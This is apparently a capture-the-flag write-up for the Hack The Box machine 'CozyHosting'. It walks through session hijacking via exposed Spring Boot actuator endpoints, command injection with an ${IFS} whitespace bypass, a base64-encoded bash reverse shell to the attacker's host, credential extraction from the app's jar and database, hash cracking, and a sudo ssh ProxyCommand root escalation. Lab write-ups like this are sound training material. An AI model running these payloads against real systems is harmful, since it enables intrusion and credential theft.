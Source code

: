 # CozyHosting

## Enumeration:

Start off with an NMAP scan:

```vim
┌──(kali㉿kali)-[~/cozyhosting]
└─$ nmap -A -Pn -v -p- --min-rate=10000 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up (0.26s latency).
Not shown: 42384 closed tcp ports (conn-refused), 23149 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://cozyhosting.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This leaks the `cozyhosting.htb` domain which we can add to `/etc/hosts`

Running a subdirectory fuzz, we can find the following endpoints:
1. `/login`
2. `/logout`
3. `/index`
4. `/admin`
5. `/error`

The error message was something unique that I had not come across before:
```
# Whitelabel Error Page

This application has no explicit mapping for /error, so you are seeing this as a fallback.

Mon Sep 04 09:44:57 UTC 2023

There was an unexpected error (type=Not Found, status=404).
```

Googling the error message implies that this is a Spring Framework website. Due to the various special endpoints that SpringFramework has, I decided to use the `spring-boot.txt` wordlist from SecLists and found the following endpoints:
1. `/actuator`
2. `/actuator/env`
3. `/actuator/env/home`
4. `/actuator/env/lang`
5. `/actuator/env/path`
6. `/actuator/health`
7. `/actuator/mappings`
8. `/actuator/sessions`
9. `/actuator/beans`

While all the above endpoints reveal some information about the SpringFramework WebApp, the `/actuator/sessions` endpoint reveals Session IDs for users. Specifically, it reveals the Session ID for the `kanderson` user.

After updating our cookie, we can access the `/admin` endpoint which allows us to "Include host into automatic patching". All this does is send a POST request to the `/executessh` endpoint with 2 parameters, host and username.

## Exploit:

Submitting the following parameters `host=localhost&username=` will result in a response with the following error:
```http
HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 04 Sep 2023 09:58:07 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
```

This shows that the `username` parameter is vulnerable to command injection. We can perform RCE with the following payload: 
```bash
host=localhost&username=$(whoami|$0)#
```

This payload performs RCE and redirects the output to file descriptor 0 (without the pipe, it would only show 1 line of output). We can see that user we have access to is called `app`. However, if we use a space in the payload, we get the following error: `Username can't contain whitespaces!`.

To bypass this, We can use `${IFS}` variable to replicate a space allowing us to execute commands like this: 
```bash
host=localhost&username=$(cat${IFS}/etc/passwd|$0)#
```

The output is not too clean and still misses some information, but we can still use a reverse shell payload like this:
```bash
host=localhost&username=$(echo${IFS}YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC41OC85MDAwIDA%2bJjEK${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash)#
```

The above payload just has the normal bash reverse shell encoded in base64, which is then decoded and piped to bash.
## Privilege Escalation:

### app to josh (Lateral Movement):

When we get on the machine, we can see the `cloudhosting-0.0.1.jar` file and we can see that it has another user called josh in the `/home` directory. We can extract it with `jar xf cloudhosting-0.0.1.jar`.

Looking into the files extracted, we can find the database creds (Specifically PostgresSQL) in `Boot-INF/classes/application.properties`

```bash
┌──(kali㉿kali)-[~/cozyhosting/BOOT-INF/classes]
└─$ cat application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Run the following:
```bash
app@cozyhosting:/app$ psql -h localhost -U postgres

postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

We can see the admin hash, using hashcat to crack it, we get the following credentials for josh: `josh:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited`

We can simply SSH into josh with his password.

User Flag is in: `/home/josh/user.txt`
### josh to root:

Using `sudo -l` we see the following:
```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Sorry, try again.
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

On [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo), we can see that the `ssh` command can be exploited with the payload below:
```bash
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';bash 0<&2 1>&2' x
```

Root Flag is in: `/root/root.txt`
